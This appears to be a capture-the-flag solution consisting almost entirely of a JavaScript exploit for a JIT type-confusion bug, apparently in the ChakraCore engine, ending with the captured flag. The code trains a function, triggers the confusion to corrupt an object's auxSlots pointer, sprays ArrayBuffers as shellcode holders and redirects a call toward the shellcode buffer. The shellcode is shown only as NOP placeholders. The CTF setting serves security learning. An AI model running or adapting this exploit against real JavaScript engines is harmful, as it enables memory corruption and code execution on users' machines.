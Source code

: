 Exploit:

```javascript
function opt(o, proto, value) {
    o.b = 0x1337;
    let tmp = {__proto__: proto};
    o.a = value;
}

function main() {
    for (let i = 0; i < 20000; i++) {
        let o = {a: 1, b: 2};
        opt(o, {}, {});
    }
    
    let o = {a: 1, b: 2};
    let leak = {z: {}, x: {}};
    let oo = {c: 0xdead, d: 0xbeef};
    // trigger vulnerability
    // auxSlots pointer will be corrupted
    opt(o, o, oo);

    // allocate some memory ( fill the gape )
    let s = {};
    var buf = new ArrayBuffer(1000);
    var shellcode = new Uint32Array(buf);
    var buf2 = new ArrayBuffer(1000);
    var shellcode2 = new Uint32Array(buf2);
    // allocate our shellcode buffer
    var buf3 = new ArrayBuffer(1000);
    var shellcode3 = new Uint32Array(buf3);
    // write our shellcode
    // shellcode3[0] = 0x90909090;
    // shellcode3[1] = 0x90909090;
    // .....................
   
    let ddd = {x:shellcode, y:shellcode};
    oo.c = shellcode;
    o.a = shellcode;
    // oo.c = 0x9447 will execute "call [rax+0xb8]" in the end
    // while [rax+0xb8] == shellcode3's buffer address
    oo.c = 0x9447;
}
main();
```

Flag:`TMCTF{0ldj1773r_15_7yp3_c0nfu510n_0f_dyn4m1c0bj3c7}`
